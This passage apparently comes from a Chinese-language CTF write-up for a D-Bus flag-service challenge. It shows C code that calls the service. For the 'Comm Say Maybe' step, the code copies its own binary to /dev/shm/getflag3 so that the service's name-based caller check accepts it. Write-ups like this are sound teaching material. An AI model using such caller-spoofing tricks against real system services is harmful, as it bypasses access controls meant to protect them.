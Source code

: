```c
  result = g_dbus_connection_call_with_unix_fd_list_sync(connection,
                                       DEST,        // destination
                                       OBJECT_PATH, // object path
                                       INTERFACE,   // interface name
                                       METHOD,      // method
                                       parameters,        // parameters
                                       NULL,        // expected return type
                                       G_DBUS_CALL_FLAGS_NONE,
                                       -1, // timeout (use default)
                                       fd_list, 
                                       &out_fd_list,
                                       NULL,
                                       &error);

  if (result) {
    gchar* myres;
    g_variant_get(result, "(&s)", &myres);
    g_print("%s\n", myres);
    g_variant_unref(result);
  } else {
    g_printerr("Error calling D-Bus method %s: %s\n", METHOD, error->message);
    g_error_free(error);
  }

  g_object_unref(connection);

  return EXIT_SUCCESS;
}
```
#### Comm Say Maybe

最后一问，题目要求执行文件的文件名为 getflag3，观察源码可知题目并没有对执行权限作出限制，因此直接把自己复制一份就行了。

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag2"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

static void on_method_call_reply(GObject* source_object, GAsyncResult* res, gpointer user_data) {

}

int main(int argc, char* argv) {
  if(argc == 1) {
    system("cp /dev/shm/executable /dev/shm/getflag3");
    system("/dev/shm/getflag3 123 123");
    return 0;
  }

  GError *error = NULL;
  GDBusConnection *connection;
  GVariant *result;

  connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
  if (!connection) {
```